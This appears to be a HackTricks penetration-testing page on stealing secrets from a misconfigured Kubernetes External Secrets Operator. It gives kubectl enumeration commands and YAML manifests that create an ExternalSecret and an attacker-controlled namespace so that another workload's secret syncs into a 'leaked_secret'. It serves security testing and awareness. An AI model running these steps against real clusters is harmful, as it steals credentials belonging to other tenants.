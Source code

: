 # External Secret Operator

{{#include /banners/hacktricks-training.md}}

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

This page gives some pointers onto how you can achieve to steal secrets from a misconfigured ESO or application which uses ESO to sync its secrets.

## Disclaimer

The technique showed below can only work when certain circumstances are met. For instance, it depends on the requirements needed to allow a secret to be synched on a namespace that you own / compromised. You need to figure it out by yourself.

## Prerequisites

1. A foothold in a kubernetes / openshift cluster with admin privileges on a namespace
2. Read access on at least ExternalSecret at cluster level
3. Figure out if there are any required labels / annotations or group membership needed which allows ESO to sync your secret. If you're lucky, you can freely steal any defined secret.

### Gathering information about existing ClusterSecretStore

Assuming that you have a users which has enough rights to read this resource; start by first listing existing _**ClusterSecretStores**_.

```sh
kubectl get ClusterSecretStore
```

### ExternalSecret enumeration

Let's assume you found a ClusterSecretStore named _**mystore**_. Continue by enumerating its associated externalsecret.

```sh
kubectl get externalsecret -A | grep mystore
```

_This resource is namespace scoped so unless you already know which namespace to look for, add the -A option to look across all namespaces._

You should get a list of defined externalsecret. Let's assume you found an externalsecret object called _**mysecret**_ defined and used by namespace _**mynamespace**_. Gather a bit more information about what kind of secret it holds.

```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```

### Assembling the pieces

From here you can get the name of one or multiple secret names (such as defined in the Secret resource). You will an output similar to:

```yaml
kind: ExternalSecret
metadata:
  annotations:
  ...
  labels:
  ...
spec:
  data:
  - remoteRef:
      conversionStrategy: Default
      decodingStrategy: None
      key: SECRET_KEY
    secretKey: SOME_PASSWORD
    ...
```

So far we got:

- Name a ClusterSecretStore
- Name of an ExternalSecret
- Name of the secret

Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced ):

```yaml
kind: ExternalSecret
metadata:
  name: myexternalsecret
  namespace: evilnamespace
spec:
  data:
    - remoteRef:
        conversionStrategy: Default
        decodingStrategy: None
        key: SECRET_KEY
      secretKey: SOME_PASSWORD
  refreshInterval: 30s
  secretStoreRef:
    kind: ClusterSecretStore
    name: mystore
  target:
    creationPolicy: Owner
    deletionPolicy: Retain
    name: leaked_secret
```

```yaml
kind: Namespace
metadata:
  annotations:
    required_annotation: value
    other_required_annotation: other_value
  labels:
    required_label: somevalue
    other_required_label: someothervalue
  name: evilnamespace
```

After a few mins, if sync conditions were met, you should be able to view the leaked secret inside your namespace

```sh
kubectl get secret leaked_secret -o yaml
```

## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include /banners/hacktricks-training.md}}
